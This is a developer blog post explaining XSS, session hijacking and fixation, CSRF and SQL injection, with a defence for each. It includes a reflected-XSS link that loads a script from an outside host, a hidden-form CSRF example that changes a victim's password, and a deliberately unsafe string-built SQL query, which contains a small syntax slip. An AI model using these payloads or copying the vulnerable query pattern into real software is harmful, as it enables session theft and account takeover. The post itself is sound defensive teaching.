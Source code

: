 ```yaml
---
layout: post
title:  "Understanding Web Application Security"
date:   2019-07-28 09:39:37 +0300
description: "
There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering: 1. Cross-site scripting, also called XSS scripting, 2. Session hijacking, 3. SQL Injection. Both cross-site scripting and SQL injection are cases of code injection...
"
icon: "security/lock.png"
url: "/images/hooks/hooks.jpg"
---
```

I can testify that a lot of people confided in me they considered doing this (including yours truly) under the frustration of the bi-monthly administrative policies that mandated we change our workstation password:

![my-password](/images/security/my-password.jpg){:class="img-responsive"}

This sort of thing happens more than you would imagine—what a lot of people don't know is that hackers rely a lot on *social engineering* to gain access to systems. [Kevin Mitnick](https://en.wikipedia.org/wiki/Kevin_Mitnick) was famous for calling in, pretending to be somebody he wasn't and asking for somebody's password to "perform some maintenance".

## Phishing
If you've followed the US 2016 election cycle news, you might have heard that John Podesta, Hillary Clinton's campaign manager, was hacked. He was actually the victim of a *phishing* scam, whereby he received an email, made to look like an authentic email from Google (he was using Gmail) that informed him that he needed to change his password because unauthorized access to his account was detected. He fell for it, clicked on the link which redirected him to a page that looked like a Google page (he didn't pay attention to the URL, it seems), where he entered his old and *supposedly* new credentials.

*But this is a scam, it's not what I wanted to talk about, because you as a developer cannot do anything about it. I want to talk about real  vulnerabilities in the software and how they can be addressed, which means understanding the vectors attackers have at their disposal.*

There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering:

1. Cross-site scripting, also called XSS
2. Session hijacking
3. Cross-site request forgery, or CSRF
4. SQL injection

Both XSS and SQL Injection are cases of *code injection*.

## Cross-Site Scripting
XSS refers to a vulnerability where an attacker can "inject" Javascript code that will be run by the application. In my previous article, I've discussed the [same-origin](http://achiral.io/cors-made-simple) policy concept at length which states that if the content from one site is granted permission to access resources on a system, then any content from that site will share these permissions, while content from another site will have to be granted permissions separately.

<i>A lot of people think that SOP prevents XSS attacks. This is <b>not the case.</b></i>

A typical example of XSS is *persistent cross-site scripting*. If a page isn't properly *sanitizing* the user input (a field in a for, for example), a user could type invalid Javascript code, which is going to be saved by the application in its database and be subsequently rendered every time it displays a page. Imagine you have a page that is visible to multiple users (such as a product page) which allows users to add comments. If the page is not escaping user input, a malicious user can write actual a script block, which will then be rendered to all users as part of the page HTML. The Javascript code has access to the cookies of that user and it can send that information to the attacker.

![image-title-here](/images/security/attack.png){:class="img-responsive"}

An alternative is the *reflected* (or non-persistent) XSS attack, whereby the user's input is not stored in the database but returned in the same way it was inputted. It works like this: Say you have a page that allows you to search for products. The user types some text in the search box and clicks the search button which sends a GET request to the server.

<div class="highlight">
GET http://www.onlineshop.com?search=something
</div>

If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

...which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term in the query string, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result and will return with a *not found* page containing the script rendered directly on the page.

<div class="highlight">
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E
  HTTP/1.1
</div>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the page must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter), etc.

## Session Hijacking
Most web applications use a session mechanism that allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies associated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted Wi-Fi hotspot in a public place and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking, etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install malware on his/her computer. Since browsers usually store cookies on disk, that malware would be able to access the cookie if it knows where to look for it.

A yet another way of accomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<div class="highlight">
http://www.website.com?sid=asb1sadasdasdan23123
</div>

The reason why they do it is that a lot of users turn off their cookies, ironically, for security reasons. This, however, would open them up to scams, like somebody sending them an email which says:

<blockquote>
Hey, click on http://www.website.com?sid=asb1sadasdasdan23123, and enter credit card and address information to receive a free bonus on your order.
</blockquote>

Since the attacker knows the session id, he/she can also log to that page and see the information inputted by the user.

## Cross-Site Request Forgery
CSRF is an attack that tricks the victim into submitting a malicious request and relies on the fact that the user is logged in. Since the browser usually sends the session cookie with the request, the server perceives the request as legitimate. An important part of CSRF attacks is *social engineering*.

![image-title-here](/images/security/csfr.png){:class="img-responsive"}

Let's say a site exposes some functionality in the form of a web request, like so:

<div class="highlight">
GET https://www.thesite.com/account?password=val HTTP/1.1
</div>

This example is a bit contrived and oversimplified, but you get the picture. If the attacker can get the user to click on a link which points to that link **while logged in**, that's going to have the effect of changing the password for the user to whatever the attacker wants. This link can be part of an email, or it can be part of a message on a public board or a website set up by the attacker, etc.

An action that changes the password will more likely be a POST than a GET, but that doesn't make it CSRF-proof either, because a user can be tricked into submitting a form. Here's how that would work: you could have a form with a hidden input like so:

<div class="margin-bottom">
<pre><code class="language-js line-numbers">
&#x3C;form action=&#x22;https://www.thesite.com/account&#x22; method=&#x22;POST&#x22;&#x3E;
  &#x3C;input type=&#x22;hidden&#x22; name=&#x22;password&#x22; value=&#x22;val&#x22;/&#x3E;
  &#x3C;input type=&#x22;submit&#x22; value=&#x22;Some tricky text&#x22;/&#x3E;
&#x3C;/form&#x3E;
</code></pre>
</div>

<script src="https://gist.github.com/toaderflorin/6862d6a60d2dc4418a38fd81ae69e5bd.js"></script>

Using HTML forms with email is not possible, because a lot of clients disable them or warn about them, but you could redirect the user to a page hosted somewhere. It turns out you don't even have to trick him/her to click on the submit button, that can be done by the site using Javascript (say by reacting to the document load event).

How about PUT and DELETE? Turns out that the *same-origin policy* helps us here because attackers cannot do XHR requests from their site to the *http://www.thesite.com*. It's also why for POST attacks a form is being used instead of a POST XHR. SOP blocks that too.

## SQL Injection
And last (in our article), but certainly not least, we have SQL injection. I think most of us remember this:

![exploit](/images/security/exploit.png){:class="img-responsive"}

For SQL injection to work, you'd have to be writing your SQL queries using string interpolation/concatenation.

<div class="margin-bottom">
<pre><code class="language-js line-numbers">
// this is the wrong way to do it
connection.query($`SELECT * FROM users WHERE username={usr}`, (err, result) => {
  // do something
})

// use parameters instead
connection.query('SELECT * FROM users WHERE username=?', [usr], (err, result) => {
  // do something
})
</code></pre>
</div>

As you can see, the text fits nicely in the query. The way you get around this is by using parameters, which are supported by all database systems.
